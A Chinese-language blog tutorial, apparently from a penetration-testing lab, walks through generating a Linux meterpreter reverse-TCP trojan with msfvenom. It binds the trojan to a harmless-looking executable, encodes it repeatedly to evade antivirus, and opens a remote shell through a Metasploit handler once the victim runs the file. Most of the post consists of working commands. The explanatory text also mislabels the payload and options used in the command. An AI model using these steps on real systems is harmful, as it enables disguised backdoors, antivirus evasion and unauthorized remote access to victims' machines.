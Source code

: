 ```yaml
---
title: Metasploit 木马编译利用
date: 2022-4-2 23:29:09
tags: [Trojan horse,Linux,Kali,Metasploit]
categories: 
 - [Penetration Test,木马]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682442126/Typera/2023/04/87d91c5d20cc130aa72fe99c74a9e8c2.png
---
```


:::default
**Metasploit**是一个开源的，可用来**发现**、**验证**并**利用**漏洞的渗透测试平台。

Kali 中默认安装了 **Metasploit** 框架。
:::

## msfvenom 命令实现木马生成、捆绑以及免杀处理

**简介：**

**msfvenom** 是 **Metasploit** 中的一个命令。

**msfvenom** 命令结合了 msfpayload 和 msfencoder 的功能，能够**生成木马**，并实现木马编码**免杀**和避免坏字符、捆绑木马等。

### msfvenom 命令用法
涉及到的**选项**有：

**-l**：列出指定**模块**（包括payloads, encoders, nops, platforms, archs, encrypt, formats, all）的所有可用**资源**。其中 **payloads** 对应的就是**木马**。

**-p**：指定需要使用的 **payload** ，可以指定 ‘-’ 或者 stdin 来**自定义** payload。
如果不知道 payload 包括哪些选项，可以使用 `--list-options` 列出 payload 的标准选项。

**-f**：指定payload的**输出格式**，可以使用 `--list formats` 来列出可选的格式。

**-o**：指定输出的payload的**保存路径**，也可以采用**重定向**的方式来替代-o选项。

**-x**： 指定一个**自定义**的**可执行文件**作为模板。即，把木马**捆绑**到指定的可执行文件上。

**-e**：指定使用的**编码器**（）。

**-i**： 指定对 payload 编码的**次数**
### 木马生成
1. 先使用 `msfvenom -l payloads` 命令，查看**可用的木马**。
因为可用的木马有**很多**，所以可以根据所需木马的特性、结合 **grep** 限定木马的种类 ![image-20230426010221520](https://res.cloudinary.com/sycamore/image/upload/v1682442146/Typera/2023/04/ebeb726eacc7fad3302b80554fb13af1.png)
以木马 `linux/x86/meterpreter/reverse_tcp`（反向连接)作为样例，
<br>
2. 查看该木马**需要设置的选项**：
`msfvenom -p linux/x86/meterpreter/reverse_tcp --list-options`![image-20230426010409894](https://res.cloudinary.com/sycamore/image/upload/v1682442254/Typera/2023/04/874f3751e4961c5140e9e30ca40f22e7.png)


<br>

3. 查看可指定的**输出格式**：
`msfvenom --list formats`![image-20230426010426398](https://res.cloudinary.com/sycamore/image/upload/v1682442270/Typera/2023/04/38ea1bb4d485262080541e030e6fc0a3.png)
<br>

4. 参考上面得到的信息，构造**生成木马**的命令：
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.158.132 LPORT=4444 -f elf -o /root/payload.elf`![image-20230426010433724](https://res.cloudinary.com/sycamore/image/upload/v1682442278/Typera/2023/04/09553b61c2c9d88fe78ede3ea742468a.png)


其中，**-p** 选择生成的木马为：**linux/x64/shell_bind_tcp**；
**RHOST** 指定将要攻击的**目标主机**的**IP**；
**LPORT** 指定对应端口号（默认为4444，故可以不写）；
**-f** 指定生成木马文件的文件**类型**为 **elf**
**-o** 指定保存生成的木马文件的**地址**为：**/root/payload.elf**

### 木马捆绑
通常情况下，木马会和正常的文件**捆绑**在一起，方便木马进行**感染**和**传播**。

所以，我们要事先准备好一个用于**绑定**的文件，这里选用的是 `/root/hello_world`（ **gcc** 编译的一个简单的C程）。

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.158.132 LPORT=4444 -f elf -x /root/hello_world -o /root/payload_bundle.elf`
![image-20230426010440843](https://res.cloudinary.com/sycamore/image/upload/v1682442285/Typera/2023/04/c7bc72a382ae694be589d6a5cb25a3de.png)


其中，**-x** 指定**绑定**的可执行文件为 `/root/hello_world`，其余项与生成木马的指令一致。


### 木马免杀
在杀毒软件泛滥的今天，不对木马文件进行免杀处理很难通过**杀软的检查**，所以需要对木马进行**免杀**处理。

查看可用的编码器：`msfvenom -l encoders`
![image-20230426010444808](https://res.cloudinary.com/sycamore/image/upload/v1682442290/Typera/2023/04/d9aa39a90db02fe251a93aff3dd31cb7.png)

选用**免杀**效果较好的 **x86/shikata_ga_nai** 编译器进行编码。
命令：`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.158.132 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f elf -x /root/hello_world -o /root/payload_Anti_Virus.elf`
![image-20230426010449517](https://res.cloudinary.com/sycamore/image/upload/v1682442294/Typera/2023/04/9f32f881202e4a535bac4f5ce0f8c517.png)


其中，**-e** 指定编译器为 **x86/shikata_ga_nai**，
**-i** 指定编码的次数为 5 次。
编码 **5** 次的木马，基本可以**躲避部分**杀软的查杀，

当然可以对木马进行**更多次**的编码，这样可以**提高**木马的**免杀机率**，但是需要注意：这也可能会导致木马**不可使用**。

## msfconsole 木马利用
使用之前生成的木马文件： **payload.elf**。

### 攻击端：

输入命令 `msfconsole` 打开 **MSF 控制台**
![image-20230426010454524](https://res.cloudinary.com/sycamore/image/upload/v1682442298/Typera/2023/04/2c2e815f13d049741cd9371ace771daa.png)



输入命令：`use exploit/multi/handler`，选择exploit模块

然后，可以输入命令 `show options` 查看**设置的参数**（查看还要设置哪些）
![](https://cdn.jsdelivr.net/gh/noneSycamore/blog_pic_url/trojan-horse10.png)




命令 `set PAYLOAD linux/x86/meterpreter/reverse_tcp` ，设置 **PAYLOAD** 
命令 `set LHOST 192.168.158.132`，设置local host 的**IP**

命令 `run` 开始**监听**对应的端口，等待**目标服务器**执行**木马**后，就能获得 **shell**。
如下图所示：
![image-20230426010500036](https://res.cloudinary.com/sycamore/image/upload/v1682442304/Typera/2023/04/8b2780434593170f1b8173cf9fa13836.png)



### 目标服务器：

用各种方式将**木马文件**传到**目标服务器**上，

命令 `chmod +x payload.elf` 更改文件执行权限

执行 **payload.elf** 文件（**顺序**：要在攻击端开始监听之后执行）：
![image-20230426010506608](https://res.cloudinary.com/sycamore/image/upload/v1682442311/Typera/2023/04/80d816c18312f780f743c4b82696c43f.png)


整理一下：
- 攻击端：
1. `msfconsole`
2. `use exploit/multi/handler`
3. `set PAYLOAD linux/x86/meterpreter/reverse_tcp`
4.` set LHOST 192.168.158.132`
5. `run`，开始监听
- 目标服务器：
1. 下载木马文件
2. `chmod +x payload.elf`
3. `./ payload.elf`
